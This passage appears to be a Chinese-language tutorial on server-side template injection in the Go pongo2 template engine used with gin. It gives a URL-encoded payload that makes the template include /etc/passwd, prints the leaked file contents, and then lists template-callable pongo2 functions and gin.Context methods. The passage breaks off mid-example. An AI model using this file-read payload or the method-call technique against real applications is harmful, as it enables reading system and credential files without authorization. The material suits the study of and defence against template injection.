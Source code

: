 注意在 url 中输入时需要进行 url 编码：
{% raw %}
```
/admin?name={%25%20include%20"/etc/passwd"%20%25}
```
{% endraw %}

这样就可以读取任意文件：
```
Hello root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```

## 任意函数调用
pongo2 同样支持函数调用，官方给出了一些参考示例：
- https://raw.githubusercontent.com/flosch/pongo2/master/template_tests/function_calls_wrapper.tpl

{% raw %}
```go
{{ simple.func_add(simple.func_add(5, 15), simple.number) + 17 }}
{{ simple.func_add_iface(simple.func_add_iface(5, 15), simple.number) + 17 }}
{{ simple.func_variadic("hello") }}
{{ simple.func_variadic("hello, %s", simple.name) }}
{{ simple.func_variadic("%d + %d %s %d", 5, simple.number, "is", 49) }}
{{ simple.func_variadic_sum_int() }}
{{ simple.func_variadic_sum_int(1) }}
{{ simple.func_variadic_sum_int(1, 19, 185) }}
{{ simple.func_variadic_sum_int2() }}
{{ simple.func_variadic_sum_int2(2) }}
{{ simple.func_variadic_sum_int2(1, 7, 100) }}
eqnil: {{ simple.func_ensure_nil(nil) }}
neqnil: {{ simple.func_ensure_nil(1) }}
v1: {{ simple.func_ensure_nil_variadic(nil) }}
v2: {{ simple.func_ensure_nil_variadic() }}
v3: {{ simple.func_ensure_nil_variadic(nil, 1, nil, "test") }}
```
{% endraw %}

这里的 simple 其实就是模板渲染时的上下文信息，因此在函数调用时需要根据 context 的值来寻找可以利用的函数。这里测试环境的 context 为 gin.Context 对象。

查阅 gin 的[官方文档](https://pkg.go.dev/github.com/gin-gonic/gin#pkg-index) 可以看到 Context 类中的函数如下：
```go
 type Context

    func CreateTestContextOnly(w http.ResponseWriter, r *Engine) (c *Context)

    func (c *Context) Abort()
    func (c *Context) AbortWithError(code int, err error) *Error
    func (c *Context) AbortWithStatus(code int)
    func (c *Context) AbortWithStatusJSON(code int, jsonObj any)
    func (c *Context) AddParam(key, value string)
    func (c *Context) AsciiJSON(code int, obj any)
    func (c *Context) Bind(obj any) error
    func (c *Context) BindHeader(obj any) error
    ...
```
这些函数都是可以直接在模板中进行调用的。例如我们输入
```
{{c.Abort}}
```
此时会返回：